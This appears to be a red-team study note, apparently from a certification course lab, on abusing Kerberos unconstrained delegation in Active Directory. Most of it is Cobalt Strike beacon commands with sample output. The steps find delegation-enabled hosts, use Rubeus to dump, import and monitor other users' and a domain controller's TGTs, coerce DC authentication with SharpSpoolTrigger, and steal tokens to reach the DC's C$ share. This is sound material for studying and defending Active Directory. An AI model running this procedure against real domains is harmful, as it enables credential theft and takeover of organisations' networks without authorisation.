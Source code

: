 
Delegation allows a user or machine to act on behalf of another user to another service.  A common implementation of this is where a user authenticates to a front-end web application that serves a back-end database.  The front-end application needs to authenticate to the back-end database (using Kerberos) as the authenticated user.

An interesting aspect to unconstrained delegation is that it will cache the user’s TGT regardless of which service is being accessed by the user. So, if an admin accesses a file share or any other service on the machine that uses Kerberos, their TGT will be cached.  If we can compromise a machine with unconstrained delegation, we can extract any TGTs from its memory and use them to impersonate the users against other services in the domain.

## 🖊️ via Cobalt Strike

#### 📔 Obtain user's account TGT

Obtain a User's TGT for unconstrained delegation

1) From a SYSTEM beacon, look for computers with unconstrained delegation enabled

`beacon> execute-assembly C:\Tools\ADSearch\ADSearch\bin\Release\ADSearch.exe --search "(&(objectCategory=computer)(userAccountControl:1.2.840.113556.1.4.803:=524288))" --attributes samaccountname,dnshostname`

Domain Controllers always have this feature enabled.

2) If your local beacon machine has it, we can now try to check if any local TGTs interact with any of those machines other machines. List your local TGTs (look for krbtgt):

`beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe triage`

3) Analyze the tickets displayed, one of those could be related/interacting with one of the machines you want access into (maybe the DC). 
4) If you identify one potential candidate, dump it, then create a new process locally using the ticket:

```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe dump /luid:0x14794e /nowrap
	
doIFwj [...snip...] MuSU8=

beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:DEV /username:nlamb /password:FakePass /ticket:doIFwj[...]MuSU8=

[*] Using DEV\nlamb:FakePass

[*] Showing process : False
[*] Username        : nlamb
[*] Domain          : DEV
[*] Password        : FakePass
[+] Process         : 'C:\Windows\System32\cmd.exe' successfully created with LOGON_TYPE = 9
[+] ProcessID       : 1540
[+] Ticket successfully imported!
[+] LUID            : 0x3206fb
```

The locally created process will have the integrity of the ticket, which should give us access into the remote machine now.

5) [[Steal the token]] of the process:
`beacon> steal_token 1540`

6) Test access into the machine with something like:
`beacon> ls \\dc-2.dev.cyberbotic.io\c$`


#### 📔 Obtain machine's account TGT

You could try to force the remote machine to log into ours, monitor for any new [[Ticket Granting Ticket (TGT)]] newly cached, and use them:

1) Monitor for tickets

```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe monitor /interval:10 /nowrap
```

2) Run SharpSpoolTrigger, this will force the authentication

`beacon> execute-assembly C:\Tools\SharpSystemTriggers\SharpSpoolTrigger\bin\Release\SharpSpoolTrigger.exe dc-2.dev.cyberbotic.io web.dev.cyberbotic.io`

Where:

- DC-2 is the "target".
- WEB is the "listener" (your current beacon location)

3) Rubeus will then capture the ticket.

```
[*] 9/6/2022 2:44:52 PM UTC - Found new TGT:

  User                  :  DC-2$@DEV.CYBERBOTIC.IO
  StartTime             :  9/6/2022 9:06:14 AM
  EndTime               :  9/6/2022 7:06:14 PM
  RenewTill             :  9/13/2022 9:06:14 AM
  Flags                 :  name_canonicalize, pre_authent, renewable, forwarded, forwardable
  Base64EncodedTicket   :

doIFuj[...]lDLklP
```

4) With the ticket, since it's a machine account's TGT we have to use [[S4U2Self Abuse]] .



### ⚠ Opsec




### Properties
---
📆 created   {{18-02-2024}} 19:17
🏷️ tags: #redteam #crto 

---

